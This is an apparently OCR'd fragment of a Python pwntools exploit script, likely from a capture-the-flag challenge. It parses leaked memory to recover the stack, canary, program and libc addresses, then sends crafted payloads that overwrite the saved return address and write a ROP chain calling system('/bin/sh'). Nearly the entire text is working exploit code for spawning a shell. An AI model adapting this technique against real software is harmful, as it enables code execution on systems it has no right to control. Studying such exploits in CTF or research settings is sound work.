 ```py

#----------PROCESS LEAKS----------#

if 'GDB' in args: input()

out = p.recvrepeat(0.25)
leaks = [0 for _ in range(0x100)]
for i in out:
    leaks[i] += 1
leaks = list(map(lambda leak: '{:02x}'.format(leak), leaks))
addresses = [int(''.join(leaks[i*8:(i+1)*8][::-1]), 16) for i in range(0x100//8)]

stack_leak = addresses[0]
canary_leak = addresses[1]
elf.address = addresses[3] - elf.sym.sort - 0x270
libc.address = addresses[5] - libc.sym.__libc_start_call_main - 122

#---------GROW STACK AGAIN---------#

SAVED_RIP = elf.sym.main+0x1c # update SAVED_RIP since elf.sym.main is updated with elf.address

payload = bytes(increase_BFD_0x100 + change_addr(SAVED_RIP, elf.sym.main, 3*0x8))
assert len(payload) <= MAX_LEN
payload = payload.rjust(MAX_LEN, b'\x00')
send(payload, line=False)

#---------WRITE ROP CHAIN----------#

libc_rop = ROP(libc)
elf_rop = ROP(elf)
binsh = next(libc.search(b"/bin/sh\x00"))
GROW_CNT = 2
FARTHEST_OFFSET = 4

max_payload_len = 0
originals = [stack_leak + 0xb0, stack_leak + 0x10, stack_leak + 0x8]
news = [libc.sym.system, binsh, libc_rop.rdi.address]
offsets = [i + GROW_CNT for i in range(FARTHEST_OFFSET, 3 - GROW_CNT, -1)]
assert len(originals) == len(news)
for i,o,n in zip(range(len(originals)), originals, news):

    j = 0
    while originals[i] and news[i] and originals[i] != news[i]:
        payload = bytes(increase_BFD_0x100)
        payload += bytes(change_addr(originals[i], news[i], offsets[i]*0x8 + j, num_writes=1))
        payload += bytes(change_addr(SAVED_RIP, elf.sym.main+5, 3*0x8))
        assert len(payload) <= MAX_LEN
        max_payload_len = max(max_payload_len, len(payload) - len(increase_BFD_0x100))
        payload = payload.rjust(MAX_LEN, b'\x00')
        send(payload, line=False)

        originals[i] >>= 8
        news[i] >>= 8
        j += 1

#------------WRITE RET------------#

payload = bytes(increase_BFD_0x100)
payload += bytes(change_addr(SAVED_RIP, elf.sym.main+0x22, 3*0x8))
assert len(payload) <= MAX_LEN
payload = payload.rjust(MAX_LEN, b'\x00')
send(payload, line=False)

```